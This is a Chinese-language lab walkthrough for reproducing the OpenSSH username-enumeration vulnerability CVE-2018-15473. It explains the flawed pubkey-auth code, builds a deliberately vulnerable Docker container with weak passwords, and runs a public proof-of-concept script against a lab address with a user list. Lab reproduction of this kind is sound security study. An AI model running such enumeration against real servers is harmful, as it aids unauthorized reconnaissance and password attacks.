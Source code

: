 # OpenSSH用户名枚举漏洞（CVE-2018-15473）
## 1.实验介绍
OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机中。

受影响版本：
OpenSSH >=2.3&&<=7.7

## 2.实验原理
以下是openssh代码：
```c
  87 static int
  88 userauth_pubkey(struct ssh *ssh)
  89 {
 ...
 101         if (!authctxt->valid) {
 102                 debug2("%s: disabled because of invalid user", __func__);
 103                 return 0;
 104         }
 105         if ((r = sshpkt_get_u8(ssh, &have_sig)) != 0 ||
 106             (r = sshpkt_get_cstring(ssh, &pkalg, NULL)) != 0 ||
 107             (r = sshpkt_get_string(ssh, &pkblob, &blen)) != 0)
 108                 fatal("%s: parse request failed: %s", __func__, ssh_err(r));
```
可以看出来，当用户不可用时，连接userauth_pubkey会直接返回，如果用户可用，则会进入下一个条件判断，调用fatal函数。所以在username可用于不可用两种情况下，可以看出来这个函数的返回是不同的。

## 3.实验准备
装有docker和docker-compose的服务器一台。
## 4.实验步骤
### 1）搭建漏洞环境
cd /root
mkdir openssh
cd openssh
vi Dockerfile
Dockerfile内容：
```file
FROM vulhub/openssh:7.7

LABEL maintainer="phithon <root@leavesongs.com>"

RUN set -ex \
    && adduser --home /home/vulhub --shell /bin/bash --disabled-password --gecos "" vulhub \
    && echo "vulhub:vulhub" | chpasswd \
    && adduser --home /home/example --shell /bin/bash --disabled-password --gecos "" example \
    && echo "example:123456" | chpasswd
```
vi docker-compose.yml
docker-compose.yml内容：
```file
version: '2'
services:
 sshd:
   build: .
   environment: 
    - ROOT_PASSWORD=vulhub
   ports:
    - "20022:22"
```
![](I:\work\截图\OpenSSH用户名枚举漏洞（CVE-2018-15473）\安装漏洞环境.png)

编译及启动一个运行OpenSSH 7.7p1的容器：
docker-compose build
docker-compose up -d
![](I:\work\截图\OpenSSH用户名枚举漏洞（CVE-2018-15473）\运行openssh容器.jpg)

需要安装两个python库
安装pycrypto
wget https://ftp.dlitz.net/pub/dlitz/crypto/pycrypto/pycrypto-2.6.1.tar.gz
taz -zxvf pycrypto-2.6.1.tar.gz
cd pycrypto-2.6.1
python3 setup.py install

安装paramiko
pip3 install paramiko==2.4.1

### 2）使用poc复现漏洞
cd /root/openssh
git clone https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
cd CVE-2018-15473-Exploit
python3 sshUsernameEnumExploit.py --port 20022 --userList user.txt 192.168.32.11

![](I:\work\截图\OpenSSH用户名枚举漏洞（CVE-2018-15473）\运行结果.jpg)